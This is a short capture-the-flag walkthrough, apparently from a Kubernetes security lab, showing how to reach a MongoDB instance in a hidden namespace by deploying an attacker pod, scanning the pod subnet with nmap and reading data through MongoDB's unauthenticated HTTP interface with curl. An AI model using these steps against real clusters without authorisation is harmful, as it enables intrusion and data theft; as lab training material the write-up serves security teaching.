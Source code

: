 # K8S Security: Namespace Bypass

## Goal

There is a hidden namespace which has a running mongodb instance.  The goal is to find the instance and find the flag.

1. Install an attacker container.

```
kubectl apply -f pentest_tools.yaml
```

2. Log into the attacker container.

```
kubectl get pods
```
```
kubectl exec -it challenge23-attacker-8bd985cb5-lk6dt -- bash
```

3.  Once in the container, get its ip.  I recently learned that the [100.64.0.0/10 space](https://en.wikipedia.org/wiki/IPv4_shared_address_space) is reserved. (!!)

```
ifconfig
```
4. Lets run a nmap scan.  We know from a previous challenge that mongodb is the database of choice. Lets look up its ports to find where mongo is.

```
nmap -p27017,28017 100.96.1.24/24
```

5. We see a host that has these ports open.  **What is port 28017?**

```
curl http://100.96.1.75:28017/listDatabases
```
```
curl http://100.96.1.75:28017/k8ctf/flag/
```

6. Exit

```
exit
```

7. Where is this mongodb running. This is the flag.

```
kubectl get namespaces
```
8. [Submit the flag.](https://devslop.ctfd.io/challenges#Challenge%2023-15)

🚨**DO NOT DELETE THE pentest tools deployment**🚨
